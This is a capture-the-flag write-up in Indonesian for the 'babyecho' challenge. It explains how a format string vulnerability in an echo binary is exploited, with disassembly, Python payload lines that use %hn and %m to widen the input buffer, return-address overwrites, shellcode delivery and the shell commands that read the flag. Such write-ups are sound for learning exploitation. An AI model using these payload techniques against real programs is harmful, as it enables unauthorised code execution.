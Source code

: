 # babyecho

**Kategori:** Baby's first
**Points:** 1
**Deskripsi**

## Write-up

Kita diberikan sebuah binary, dan binary ini hanya mengoutputkan balik apa yang kita ketikkan. Pertama kali dijalankan, akan muncul pesan:

      Reading 13 bytes

Jika kita masukkan string `%d`, maka akan muncul `13`, berarti kemungkinan besar ini masalah format string exploit. Hal pertama yang harus kita lakukan adalah memperbesar ukuran input yang akan dibaca oleh, supaya kita bisa mengirimkan string yang lebih panjang. Menengok pada  disassemblynya alamat `esp+0x10` berisi jumlah karakter yang akan dibaca, jika kita bisa mengubah nilai ini, maka berikutnya kita bisa mulai membuat exploit

	08048FB6                 mov     eax, 3FFh
	08048FBB                 cmp     dword ptr [esp+10h], 3FFh
	08048FC3                 cmovle  eax, [esp+10h]
	08048FC8                 mov     [esp+10h], eax
	08048FCC                 mov     eax, [esp+10h]
	08048FD0                 mov     [esp+4], eax
	08048FD4                 mov     dword ptr [esp], offset aReadingDBytes ; "Reading %d bytes\n"
	08048FDB                 call    printf


Kita perlu tahu alamat buffer (yang ada di `esp+0x1c`):

	08048FE0                 mov     dword ptr [esp+8], 0Ah
	08048FE8                 mov     eax, [esp+10h]
	08048FEC                 mov     [esp+4], eax
	08048FF0                 lea     eax, [esp+1Ch]
	08048FF4                 mov     [esp], eax
	08048FF7                 call    readbytes

Penggunaan `%n` tidak diperkenankan (akan diubah oleh program menjadi `_n`), jadi kita perlu memakai `%hn`. Karena buffer sangat kecil, tidak mungkin menggunakan '%p%p%p%p%p%p' agar kurang dari 13 karakter. Butuh agak lama bagi saya untuk menemukan tentang penggunaan `%$` untuk indexing parameter pada `printf`. Saya menggunakan cara sederhana untuk mengekspand buffernya: pertama cari tahu dulu alamat buffernya dengan `%d%d%d%d%p`, lalu saya kurangi dengan `0xc` (karena ada di `[esp+0x10]`), 

     tosend = q(stack-0xc) + "%m%7$hn\n"

Saya memakai fungsi `q` sebagai shortcut saja untuk:

```python
def q(a):
  return struct.pack("I", a)
```

Seharusnya ada cara yang lebih cepat untuk mengekspand buffer, tapi cara itu yang terpikir pertama kali oleh saya. Format `%m` akan memprint error message yang cukup panjang, dengan itu panjang yang akan dibaca menjadi 29 bytes:

      Reading 29 bytes
      
Saya ulangi lagi dengan `%m` yang lebih banyak:

```python
tosend = q(stack-0xc) + "%m" * 9 +  "%7$hn\n"
```

      Reading 229 bytes
      
Dan sekali lagi:      

```python
tosend = q(stack-0xc) + "%m" * 44 +  "%7$hn\n"
```

      Reading 1023 bytes

Berikutnya kita perlu mengubah return address, supaya ketika fungsi ini keluar, maka kode shell kita yang akan dipanggil. Karena kita bisa mengirimkan format string berkali-kali, maka saya ubah satu byte demi satu byte. Terakhir kita perlu keluar dari loop

	08049027                 call    _alarm
	0804902C
	0804902C loc_804902C:                            ; CODE XREF: main+78 ^
	0804902C                 cmp     dword ptr [esp+18h], 0
	08049031                 jz      short loc_8048FB6

Kita akan keluar dari loop jika `esp+0x18` bernilai tidak 0, jadi kita tidak peduli nilainya asalkan bukan 0. Terakhir saya kirimkan shell code bersama dengan format string untuk mengeset `esp+0x18` dengan nilai non-zero:

```python
tosend = q(stack-0xc+0x8) + shell + "%7$hn---\n"
```

Sekarang setelah mendapatkan shell, kita bisa mencari tahu di mana flagnya:

	ls /
	ls /home/
	ls /home/babyecho/
	cat /home/babyecho/flag

Dan flagnya:

     The flag is: 1s 1s th3r3 th3r3 @n @n 3ch0 3ch0 1n 1n h3r3 h3r3? 3uoiw!T0*%

